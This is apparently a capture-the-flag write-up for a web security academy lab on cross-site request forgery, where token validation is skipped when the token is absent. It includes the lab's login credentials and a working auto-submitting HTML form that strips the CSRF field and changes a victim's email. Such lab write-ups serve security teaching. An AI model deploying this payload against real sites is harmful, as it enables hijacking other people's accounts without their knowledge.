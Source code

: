 Title: CSRF where token validation depends on token being present
Level: PRACTITIONER
Desc:  This lab's email change functionality is vulnerable to CSRF.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough: 
Request without CSRF token is valid and processed by and app.
<img width="1021" height="513" alt="image" src="https://github.com/user-attachments/assets/7a6cb2c6-983b-437a-a04d-b9a9fdf0b5c3" />

```
<form method="POST" action="https://0a6d008e04ec9be6818dcad800f400b3.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test21@normal-user.net">
</form>
<script>
    // Remove any CSRF token input if it was added dynamically (safety step)
    const csrfInput = document.querySelector('input[name="csrf"]');
    if (csrfInput) csrfInput.remove();
    document.forms[0].submit();
</script>
```





